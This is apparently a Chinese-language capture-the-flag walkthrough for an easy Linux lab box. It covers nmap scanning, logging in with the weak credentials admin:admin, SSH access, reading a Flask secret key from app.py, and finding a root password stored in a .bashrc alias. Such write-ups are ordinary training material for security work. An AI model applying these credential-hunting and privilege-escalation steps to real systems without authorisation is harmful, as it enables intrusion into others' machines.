

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/balufood  
❯ nmap 172.17.0.2 -sV -A -p- 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
|_  256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Restaurante Balulero - Inicio
```

## Weak Pass

进入到**172.17.0.2:5000/login**

```
username:admin
password:admin
```



可以**ssh**登录

```
[root@kali] /home/kali/balufood  
❯ ssh sysadmin@172.17.0.2          
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:ZcJw57pSEVAGdPKcg6E5FVaWh/s1IMKnuLnTky7h3xQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
sysadmin@172.17.0.2's password: 
Linux 880b1afd5905 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Apr 29 13:02:47 2025 from 172.17.0.1
sysadmin@880b1afd5905:~$ ls
app.py  restaurant.db  static  templates
```

## Own balulero

读取**app.py**可以得到密钥

```
sysadmin@880b1afd5905:~$ cat app.py 
from flask import Flask, render_template, redirect, url_for, request, session, flash
import sqlite3
from functools import wraps

app = Flask(__name__)
app.secret_key = 'cuidaditocuidadin'
DATABASE = 'restaurant.db'

........
```

可以切换到**balulero**用户

```
sysadmin@880b1afd5905:~$ su balulero
Password: 
balulero@880b1afd5905:/home/sysadmin$ ls
ls: cannot open directory '.': Permission denied
balulero@880b1afd5905:/home/sysadmin$ cd ~     
balulero@880b1afd5905:~$ ls
balulero@880b1afd5905:~$ ls -al
total 28
drwx------ 3 balulero balulero 4096 Apr 29 12:58 .
drwxr-xr-x 1 root     root     4096 Apr 29 12:56 ..
-rw------- 1 balulero balulero  113 Apr 29 13:03 .bash_history
-rw-r--r-- 1 balulero balulero  220 Apr 29 12:55 .bash_logout
-rw-r--r-- 1 balulero balulero 3572 Apr 29 12:58 .bashrc
drwxr-xr-x 3 balulero balulero 4096 Apr 29 12:57 .local
-rw-r--r-- 1 balulero balulero  807 Apr 29 12:55 .profile
balulero@880b1afd5905:~$ 
```

## Root

注意到**bash\_history**中对**bashrc**进行了修改

```
balulero@880b1afd5905:~$ cat .bash_history 
nano ~/.bashrc
apt install nano -y
exit
nano ~/.bashrc
source nano ~/.bashrc
source ~/.bashrc
alias
su root
exit
```

在最后一行看到**root**密码

```
balulero@880b1afd5905:~$ cat .bashrc 

...
...
...
alias ser-root='echo chocolate2 | su - root'

balulero@880b1afd5905:~$ su root 
Password: 
root@880b1afd5905:/home/balulero# id
uid=0(root) gid=0(root) groups=0(root)
```

## Summary

很简单了，就不总结了。
